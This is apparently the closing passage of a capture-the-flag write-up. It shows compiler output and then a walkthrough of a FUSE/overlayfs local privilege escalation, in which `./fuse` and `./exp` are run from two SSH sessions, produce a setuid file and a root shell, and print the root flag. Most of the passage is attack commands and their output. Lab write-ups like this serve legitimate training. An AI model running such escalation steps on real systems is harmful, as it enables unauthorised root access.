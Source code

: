 ```
      |     pclose
fuse.c:221:5: warning: implicit declaration of function ‘rmdir’ [-Wimplicit-function-declaration]
  221 |     rmdir(mount_path);
      |     ^~~~~
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0xaf4e): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
gcc -o exp exp.c -lcap
gcc -o gc getshell.c
```

I then ran `./fuse ./ovlcap/lower ./gc` in my first shell, opened a new SSH instance with the user `admin` and ran `./exp`.

```
$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
[+] readdir
[+] getattr_callback
/file
[+] open_callback
/file
[+] read buf callback
```

```
$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Jan  5 07:20 .
drwxr-xr-x 6 root   root     4096 Jan  5 07:20 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
# cat /root/root.txt
f47df46ad586c28aa025a48f2e961c83
```

And there's our root flag! 

Flag: `f47df46ad586c28aa025a48f2e961c83`
